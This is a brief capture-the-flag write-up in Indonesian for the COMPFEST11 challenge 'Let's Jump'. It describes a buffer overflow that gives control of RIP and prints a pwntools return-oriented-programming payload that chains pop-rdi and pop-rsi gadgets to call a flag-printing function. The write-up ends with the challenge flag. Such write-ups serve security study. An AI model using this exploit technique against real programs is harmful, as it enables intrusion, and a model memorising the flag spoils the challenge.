

# Let's Jump

vuln buffer overflow dengan memasukkan data lebih dari 9 byte kita sudah dapat mengontrol RIP. Di dalam program terdapat fungsi yang dapat menampilkan flag, tetapi ada 2 argumen sebagai syarat yg harus di kirim agar fungsi tersebut menampilkan flag
<br>
<br>

```
from pwn import *
pop_rdi = p64(0x0000000000400923)
pop_rsi_x = p64(0x0000000000400921)
pay = "B"+"A"*0x8
pay += pop_rdi
pay += p64(1)
pay += pop_rsi_x
pay += p64(0x00400952)
pay += p64(0)
pay += p64(0x4007b6)
print(pay)
```

<br>

**COMPFEST11{jump_and_play_with_ret_gadget}**
